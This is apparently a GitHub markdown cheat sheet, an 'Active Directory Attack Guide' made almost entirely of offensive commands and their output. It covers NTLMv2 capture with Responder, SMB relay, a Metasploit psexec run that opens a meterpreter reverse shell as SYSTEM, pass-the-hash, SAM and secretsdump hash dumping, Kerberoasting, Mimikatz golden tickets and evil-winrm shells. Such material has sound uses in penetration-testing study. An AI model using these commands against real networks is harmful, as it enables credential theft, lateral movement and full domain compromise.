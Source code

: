 ## Active Directory Attack Guide.

#### Capture `NTLMv2` Hashes with `Responder`
```
> sudo responder -I eth0 - rdwv
```
#### Crack the Hash with `Hashcat`
```
> hashcat -m 5600 hash rockyou.txt
--help:
MODE | 5600 | NetNTLMv2 | Network Protocol
```

#### Edit the Responder Config File for `SMB Relay Attack`
```
> nano /etc/responder/responder.conf

; Servers to start
SQL = On
SMB = Off
RDP = On
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off
HTTPS = On
DNS = On
LDAP = On
DCERPC = On
WINRM = On
```

#### Running `Responder`
```
> sudo responder -I eth0 - rdwv
```
#### Starting `NTLMrelayx` part of Impacket Tools
```
> ntlmrelayx.py -tf targets.txt -smb2support -i 
--help:
-i -- intercative
-e -- execute payload (test.exe) (Creating a payload with msfvenom)
-c -- run a command (whoami)

[*] Servers started, waiting for connections
[*] SMBD-Thread-4: Connection from DOMAIN/user@192.168.164.141 controlled, attacking target smb://192.168.164.142
[*] Authenticating against smb://192.168.164.142 as DOMAIN/USER SUCCEED
[*] Started interactive SMB client shell via TCP on 127.0.0.1:11000
[*] SMBD-Thread-4: Connection from DOMAIN/USER@192.168.164.141 controlled, but there are no more targets left!
[-] SMB SessionError: STATUS_NO_SUCH_FILE({File Not Found} The file %hs does not exist.)

```

#### `Netcat` Listener on localhost
```
> nc 127.0.0.1 11000
Type help for list of commands
# shares
ADMIN$
C$
IPC$
Share
```
#### Exploiting the Target with `Metasploit`

```
> msfconsole

use exploit/windows/smb/psexec
msf6 exploit(windows/smb/psexec) > show options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOSTS                192.168.164.141  yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wi
                                                    ki/Using-Metasploit
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                    no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SMBDomain             DOMAIN.local     no        The Windows domain to use for authentication
   SMBPass               pass_123         no        The password for the specified username
   SMBSHARE                               no        The share to connect to, can be an admin share (ADMIN$,C$,...) or a norma
                                                    l read/write folder share
   SMBUser               user             no        The username to authenticate as


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.164.137  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

msf6 exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp

msf6 exploit(windows/smb/psexec) > run

[*] Started reverse TCP handler on 192.168.164.137:4444
[*] 192.168.164.141:445 - Connecting to the server...
[*] 192.168.164.141:445 - Authenticating to 192.168.164.141:445|marvel.local as user 'user'...
[*] 192.168.164.141:445 - Selecting PowerShell target
[*] 192.168.164.141:445 - Executing the payload...
[+] 192.168.164.141:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (200262 bytes) to 192.168.164.141
[*] Meterpreter session 1 opened (192.168.164.137:4444 -> 192.168.164.141:58863 ) at 2022-01-12 22:38:10 +0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
#### Enumeration with `PowerView.ps1`
```
> powershell -ep bypass

> . .\PowerView.ps1

> Get-NetDomain

> Get-NetDomainController

> Get-DomainPolicy
	> (Get-DomainPolicy)."system access"
		
> Get-NetUser (select = grep in Linux)
	> Get-NetUser | select description
	> Get-NetUser | select samaccountname
	> Get-NetUser | select cn
		
> Get-UserProperty
	> Get-UserProperty -Properties pwdlastset
		
> Get-NetComputer (select = grep in Linux)
	> Get-NetComputer | select cn
	> Get-NetComputer | select operatingSystem
		
> Get-NetGroup
	> Get-NetGroup -Identity *admin*
		
> Get-NetGroupMember -Identity "Domain Admins"

> Invoke-ShareFinder

> Get-NetGPO | select displayname, whenchange      
```

### Note: ```NTLM``` hash can be passed but not ```NTLMv2```

#### Pass the Hash with `Crackmapexec`

```
> crackmapexec smb 192.168.164.0/24 -u user -d DOMAIN.local -p password

. DumpHashes
> crackmapexec smb 192.168.164.0/24 -u user -d DOMAIN.local -p password --sam

> crackmapexec smb 192.168.164.0/24 -u "Full Name" -H HASH --local-auth

```
#### Enumeration with `lookupsid.py` (searching for users SID)
```
. anonymous login must be enabled.
> lookupsid.py anonymous@192.168.1.1 | tee users.txt
```

#### Dumping Hash with `Secretsdump.py`
```
> secretsdump.py domain/user:password@192.168.164.141
```
#### Getting a Shell with `PsExec.py` (LMHASH:NTHASH)
```
> psexec.py "username":@192.168.164.141 -hashes LMHASH:NTHASH
> psexec.py DOMAIN.local/Administrator:'password'@192.168.164.141 (character-escaping with '')
```
#### Token Impersonation with `Incognito` (Metasploit)
Note: Impersonation works with Logged in Users, Token is valid till the PC is Rebooted.

 * Delegate Token - Login or RDP Sessions
```
meterpreter > load incognito

meterpreter > list_tokens -u

meterpreter > impersonate_token domain\\user

meterpreter > shell

C:\Windows\system32>whoami

meterpreter > rev2self (revert back to user we gained shell as)
```	
#### Dumping Hashes with `GetUserSPNs.py` (`Kerberoasting`)
```
> GetUserSPNs.py DOMAIN.local/user:password -dc-ip (DC-ip-addr) -request

> GetNPUsers.py DOMAIN.local/ -usersfile users.txt -no-pass -dc-ip 192.168.1.1
```

#### Cracking `Kerberos` hash with `Hashcat`
```
> hashcat -m 13100 kerberos-hash.txt rockyou.txt
MODE | 13100 | Kerberos 5, etype 23, TGS-REP | Network Protocol
```
#### Post-Exploitation with Mimikatz
```
> . .\mimikatz.exe
  privilege::debug [privilege "20" ok]
  
. Dump the hash and security identifier of the Kerberos Ticket Granting Ticket account
> lsadump::lsa /inject /name:krbtgt 

. Create a Golden Ticket
> kerberos::golden /user: /domain: /sid: /krbtgt: /id:

. Dump NTLM hashes
> lsadump::lsa /patch

. Cracking NTLM hash with John the Ripper and Hashcat
> john --format=NT hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
> hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt
```
#### Gaining Shell with Evil-Winrm
```
Ports:
5985/tcp (HTTP)
5986/tcp (HTTPS)

> evil-winrm -i 192.168.1.1 -u username -p "password"
> evil-winrm -i 192.168.1.1 -u username -H "hash"


